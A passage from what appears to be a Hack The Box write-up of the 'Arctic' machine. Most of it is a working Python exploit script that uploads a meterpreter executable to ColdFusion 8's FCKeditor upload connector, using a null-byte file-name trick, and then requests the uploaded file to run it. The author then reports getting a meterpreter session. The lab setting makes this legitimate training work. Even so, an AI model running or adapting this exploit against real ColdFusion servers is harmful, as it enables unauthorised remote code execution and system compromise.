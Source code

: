 ```python

        buffer.write(b'--' + self.boundary + b'--\r\n')
        return buffer.getvalue()

def execute_payload():
    print('\nExecuting the payload...')
    print(urllib.request.urlopen(f'http://{rhost}:{rport}/userfiles/file/{filename}.jsp').read().decode('utf-8'))

if __name__ == '__main__':
    # Define some information
    lhost = '10.10.14.12'
    lport = 4444
    rhost = "10.10.10.11"
    rport = 8500
    filename = "meterpreter" # uuid.uuid4().hex

    # Encode the form data
    form = MultiPartForm()
    form.add_file('newfile', filename + '.txt', fileHandle=open(filename + '.exe', 'rb'))
    data = bytes(form)

    # Create a request
    request = urllib.request.Request(f'http://{rhost}:{rport}/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=/{filename}.exe%00', data=data)
    request.add_header('Content-type', form.get_content_type())
    request.add_header('Content-length', len(data))

    # Send the request and print the response
    print('\nSending request and printing response...')
    print(urllib.request.urlopen(request).read().decode('utf-8'))
    
    # Print some information
    print('\nPrinting some information for debugging...')
    print(f'lhost: {lhost}')
    print(f'rhost: {rhost}')
    print(f'rport: {rport}')
    print(f'payload: {filename}.exe')
```

I looked for the file and it was located in `C:\ColdFusion8\wwwroot\userfiles\file\`. I executed it and got a **meterpreter session**:

![](/assets/img/htb/machines/windows/easy/arctic/meterpreter_session.png).

YES!
